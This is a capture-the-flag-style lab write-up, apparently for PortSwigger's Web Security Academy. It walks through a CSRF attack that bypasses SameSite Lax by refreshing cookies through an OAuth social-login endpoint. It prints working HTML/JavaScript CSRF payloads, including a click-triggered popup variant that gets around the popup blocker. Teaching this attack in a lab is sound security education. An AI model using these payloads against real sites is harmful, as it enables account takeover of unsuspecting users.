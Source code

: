 # SameSite Lax bypass via cookie refresh
# Objective
This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter`

# Solution
## Analysis
Website has `Change email` functionality which is not protected by `CSRF` token. There is no `SameSite` option specified - Chrome enforces `Lax` by default.

|![](Images/image-45.png)|
|:--:| 
| *OAuth login* |
|![](Images/image-47.png)|
| *Cookie configuration - no SameSite option specified* |
|![](Images/image-46.png)|
| *Test of change email functionality - CSRF token is not preset* |

## Exploitation
### CSRF Expoit
If victims executes the following payload within 2 minutes after logging in, the `Change email` request will be send correctly. Only within first 2 minutes after login cookies are included in request even though this is a cross-site POST request - `Lax` for 2 minutes is not enforced by browser.

```html
<script>
    history.pushState('', '', '/')
</script>
<form action="https://<id>.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="test@test.test" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

### SameSite restrictions bypass
The 2 minutes exploitation widow can be bypassed by using endpoint `/social-login` - every time a user sends request to this endpoint, user refreshes his cookies. Following payload opens `/social-login` (to refresh cookies and start 2 minutes window) in new tab and after delay sends `Change email` request.

```html
<form method="POST" action="https://<id>.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://<id>.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

Payload is blocked by `Popup Blocker`.

|![](Images/image-48.png)|
|:--:| 
| *Blocked payload* |

### Popup blocker bypass
`Popup Blocker` can by bypassed via munual user interaction - manual user interaction will not trigger `Popup Blocker`.

|![](Images/image-48.png)|
|:--:| 
| *Exploit server configuration* |
|![](Images/image-50.png)|
| *1 - Exploit is triggered* |
|![](Images/image-51.png)|
| *2 - Request to social-login to refresh cookies* |
|![](Images/image-52.png)|
| *3 - Request to change email and then redirection to user account info* |

Exploit server configuration:
```html
<form method="POST" action="https://<id>.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@test.test">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://<id>.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```






